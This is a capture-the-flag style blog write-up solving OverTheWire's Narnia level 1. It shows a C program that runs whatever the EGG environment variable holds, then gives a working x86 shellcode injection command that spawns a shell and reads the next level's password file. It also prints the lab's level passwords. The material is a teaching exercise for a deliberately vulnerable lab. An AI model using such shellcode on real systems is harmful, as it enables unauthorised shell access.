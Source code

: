 ```yaml
---
layout: post
title:  "Narnia Level 1"
date:   2015-10-02 12:52
categories: narnia wargame pwnable overthewire
author: Leander
---
```


This is a solution guide to the Narnia1 Level at [overthewire](http://overthewire.org/wargames/narnia/) This write-up was first created on 27 February 2015.

<strong>Challenge Description:</strong> Narnia1 requires the attacker to take advantage of an environment variable called <em>EGG</em>. Essentially, this program will search for this specific enironment variable and then attempt to execute whatever the variable holds. The goal here is to place executable shellcode inside an environment variable.
<!--break-->

First connect to the lab
<ul><li>ssh narnia1@narnia.labs.overthewire.org</li>
<li>Enter the following as the password efeidiedae</li></ul>

Change directories to the narnia games folder `cd /narnia`. Next, let's examine how we get the password for the next level `less narnia1.c`.

{% highlight c linenos %}
int main(){
        int (*ret)();

        if(getenv("EGG")==NULL){    
                printf("Give me something to execute at the env-variable EGG\n");
                exit(1);
        }

        printf("Trying to execute EGG!\n");
        ret = getenv("EGG");
        ret();

        return 0;
}
{% endhighlight %}

So this seems to be a pretty easy challenge. When we examine the source code we can see that the first thing that occurs is that a void pointer is created. Next, there are two functions that get an environment variable called "EGG" and if the "EGG" environment variable exists then it retrieves the pointer to that environment variable and stores it in ret. Last it will execute whatever "EGG" is pointing to as a function call. Essentially, it will attempt to execute anything that is placed in "EGG".

So the first step is to grab some shellcode from [shell-storm](http://shell-storm.org/shellcode/files/shellcode-811.php) Next, we grab all the bytes and place them into the "EGG" environment variable:

<figure class="highlight"><pre><code class="language-text" data-lang="text">export EGG=`perl -e 'print "\x31\xc0\x50\x68\x2f\x2f\x73" . "\x68\x68\x2f\x62\x69\x6e\x89" . "\xe3\x89\xc1\x89\xc2\xb0\x0b" . "\xcd\x80\x31\xc0\x40\xcd\x80"'`</code></pre></figure>

Third, we run the vulnerable program with `./narnia1` and check that out. Now we have a shell!

Let's doublecheck our creds with `whoami` and we get:

<figure class="highlight"><pre><code class="language-text" data-lang="text">$ whoami
narnia2
$ </code></pre></figure>

So now we can retrieve our password like so:

<figure class="highlight"><pre><code class="language-text" data-lang="text">$ cat /etc/narnia_pass/narnia2
nairiepecu
$</code></pre></figure>

BINGO! level 2 password is ```nairiepecu```
